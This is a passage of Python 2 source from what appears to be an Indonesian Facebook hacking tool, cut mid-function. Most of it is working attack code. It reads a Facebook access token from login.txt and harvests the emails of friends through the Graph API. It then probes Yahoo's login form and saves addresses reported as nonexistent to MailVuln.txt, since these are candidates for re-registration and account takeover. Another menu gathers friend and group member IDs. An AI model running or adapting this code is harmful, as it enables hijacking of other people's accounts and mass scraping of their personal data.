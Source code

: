 '\x1b[1;31;40m0. Kembali'     print     yahoo_pilih()   def yahoo_pilih():     go = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')     if go == '':         print '\x1b[1;91m[!] Jangan kosong'         yahoo_pilih()     else:         if go == '1':             yahoofriends()         else:             if go == '2':                 yahoolist()             else:                 if go == '0':                     menu_hack()                 else:                     print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + go + ' \x1b[1;91mTidak ada'                     yahoo_pilih()   def yahoofriends():     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('reset')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     mpsh = []     jml = 0     jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')     teman = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)     kimak = json.loads(teman.text)     save = open('MailVuln.txt', 'w')     print 40 * '\x1b[1;97m\xe2\x95\x90'     for w in kimak['data']:         jml += 1         mpsh.append(jml)         id = w['id']         nama = w['name']         links = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)         z = json.loads(links.text)         try:             mail = z['email']             yahoo = re.compile('@.*')             otw = yahoo.search(mail).group()             if 'yahoo.com' in otw:                 br.open('https://login.yahoo.com/config/login?.src=fpctx&amp;.intl=id&amp;.lang=id-ID&amp;.done=https://id.yahoo.com')                 br._factory.is_html = True                 br.select_form(nr=0)                 br['username'] = mail                 klik = br.submit().read()                 jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')                 try:                     pek = jok.search(klik).group()                 except:                     print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'                     continue                  if '"messages.ERROR_INVALID_USERNAME">' in pek:                     save.write(mail + '\n')                     print 40 * '\x1b[1;97m\xe2\x95\x90'                     print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama  \x1b[1;91m:\x1b[1;97m ' + nama                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mID    \x1b[1;91m:\x1b[1;97m ' + id                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;97m ' + mail + ' [\x1b[1;92m' + vuln + '\x1b[1;97m]'                     print 40 * '\x1b[1;97m\xe2\x95\x90'                 else:                     print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'         except KeyError:             pass      print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'     print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m:\x1b[1;97m MailVuln.txt'     save.close()     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')     menu_yahoo()   def yahoolist():     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         os.system('reset')         print logo         print 40 * '\x1b[1;97m\xe2\x95\x90'         files = raw_input('\x1b[1;91m[+] \x1b[1;92mFile \x1b[1;91m: \x1b[1;97m')         try:             total = open(files, 'r')             mail = total.readlines()         except IOError:             print '\x1b[1;91m[!] File tidak ada'             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')             menu_yahoo()      mpsh = []     jml = 0     jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')     save = open('MailVuln.txt', 'w')     print 40 * '\x1b[1;97m\xe2\x95\x90'     print '\x1b[1;91m[?] \x1b[1;97mStatus \x1b[1;91m:  \x1b[1;97mRed[\x1b[1;92m' + vulnot + '\x1b[1;97m]  Green[\x1b[1;92m' + vuln + '\x1b[1;97m]'     print     mail = open(files, 'r').readlines()     for pw in mail:         mail = pw.replace('\n', '')         jml += 1         mpsh.append(jml)         yahoo = re.compile('@.*')         otw = yahoo.search(mail).group()         if 'yahoo.com' in otw:             br.open('https://login.yahoo.com/config/login?.src=fpctx&amp;.intl=id&amp;.lang=id-ID&amp;.done=https://id.yahoo.com')             br._factory.is_html = True             br.select_form(nr=0)             br['username'] = mail             klik = br.submit().read()             jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')             try:                 pek = jok.search(klik).group()             except:                 print '\x1b[1;91m ' + mail                 continue              if '"messages.ERROR_INVALID_USERNAME">' in pek:                 save.write(mail + '\n')                 print '\x1b[1;92m ' + mail             else:                 print '\x1b[1;91m ' + mail      print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'     print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m:\x1b[1;97m MailVuln.txt'     save.close()     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')     menu_yahoo()   def grab():     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('reset')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     print '\x1b[1;37;40m1. Ambil ID teman'     print '\x1b[1;37;40m2. Ambil ID teman dari teman'     print '\x1b[1;37;40m3. Ambil ID member GRUP'     print